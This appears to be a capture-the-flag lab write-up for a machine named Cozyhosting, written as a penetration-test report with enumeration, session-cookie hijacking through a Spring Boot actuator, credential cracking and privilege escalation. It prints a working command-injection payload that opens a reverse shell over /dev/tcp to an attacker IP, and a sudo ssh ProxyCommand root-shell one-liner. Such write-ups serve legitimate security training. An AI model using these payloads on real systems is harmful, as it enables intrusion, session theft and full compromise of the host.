


# Cozyhosting Machine

## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: ```sudo nmap -sS -p22,80 -sV -O -sC cozyhosting.htb``` 
 


### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other func-tions in the service. The command used was ```sudo gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wfuzz/wordlist/general/common.txt”```.
 


First thing to do is to manually check the findings. 

When accessing “admin” page, a redirection to “login” is found.
 


The “error” page gives more information as let us guess the type of application that is run-ning in the background. This is because “Whitelabel Error Page” is the default error page for Spring Boot applications.
 


Taking the last into account, a new directory scan will be made but this time using a Spring Boot dictionary (obtained form https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/spring-boot.txt). 
Command used is ```sudo gobuster dir -u http://cozyhosting.htb/ -w /home/corso/Desktop/wordlists/SecLists-master/Discovery/Web-Content/spring-boot.txt```.

 


As shown in the previous picture, Spring Boot actuators are found. Sessions and Mappings actuators stand out because they give very useful information.
In ```/actuator/mappings``` we can see the different endpoints available in the application. Among them, ```/executessh``` seems to be interesting.
 


Sessions’ actuator shows what seems to be a session cookie for the user Kanderson. If user “Kanderson” has rights to access the Admin page, it may be possible to use his session cookie and access on his behalf. 

 

 


Once the cookie is set, it is possible to access the Admin Dashboard.  


Looking through the Admin dashboard, there is an interesting functionality that lets the user configure an arbitrary host for automatic patching through SSH. As expected, it uses the ```/executessh``` endopoint that stood out during the ```/actuator/mappings``` enumeration.
 


Inserting two random values as ```hostname=localhost&username=kanderson``` generates a POST request to ```/executessh``` that results in a “Host key verification failed” error.
 

 


The way the errors are thrown are suspicious as it seems to be the output of a shell com-mand. In order to generate more errors, I inserted some special characters to see if it is possible to inject some commands.

The error shown after inserting ```hostname=localhost&username=hello;id;```, was a clear indication that host may be vulnerable to command injection.
 

 


The fact that the error says ```@localhost: command not found``` let us know that the command executed on the backend is something like ```ssh [some_options] <username>@<hostname>``` and if “;” is inserted on the username parameter the ssh command will fail as it will not correctly receive the hostname parameter (because the server will consider everything after “;” as a new command).

It was also confirmed that front end did not allow blank spaces on the username parameter.
 


After some trials, it was found that appending ```%0A<command_to_execute_without_spaces>;``` let us execute commands on the server.
In order to check the execution, a 404 HTTP GET request will be performed against a web server running on my machine.
 

 


## Initial Access – Command Injection

**Vulnerability Explanation**: misconfigured Spring Boot application that exposes other users’ session cookies has a insecure function “/executessh” where it is possible to inject com-mands to open a reverse shell.
**Vulnerability Fix**: securely store session cookies and correctly sanitize user input on “/executessh” function.
**Severity**: Critical
**Steps to reproduce the attack**: 

•	Access “/actuator/sessions” and grab session cookie for user “kanderson”.

•	Setup a listener on port 444.

•	Using that cookie access the Admin dashboard and insert on username parameter: kanderson@%0A(sh)0>/dev/tcp/10.10.14.10/444;a
 


•	Insert “exec >&0” on the recently opened shell.
 


## Post Exploitation.

After gaining initial access, a veri interesting file is  found called “cloudhosting-0.0.1.jar”
 


After downloading the file and manually inspecting it, some credentials for PostgreQL data-base are found inside a file called “application.properties”.
 


This password let me access the postgresql database using the command ```psql -U post-gres -h localhost```.
 


More credentials are found inside “Users” table.
 


Using hashcat and rockyou dictionary it is possible to crack the hash for user Admin.
 


Once this password is recovered, it is possible to access the target machine through SSH as the password was reused and is the same password for user local user josh.
 


## Privilege Escalation – Insecure Sudo Permissions

**Vulnerability Explanation**: After establishing a foothold on target, Cosme noticed that the user has permissions to execute “ssh *” as a super user. This configuration let a user with-out privileges spawn a root shell.
**Vulnerability Fix**: avoid using wildcards when establishing the sudo permissions for a user.
**Severity**: Critical
**Steps to reproduce the attack**: execute “sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x”
**Screenshot**:
 


## Post-Exploitation

System Proof Screenshot:


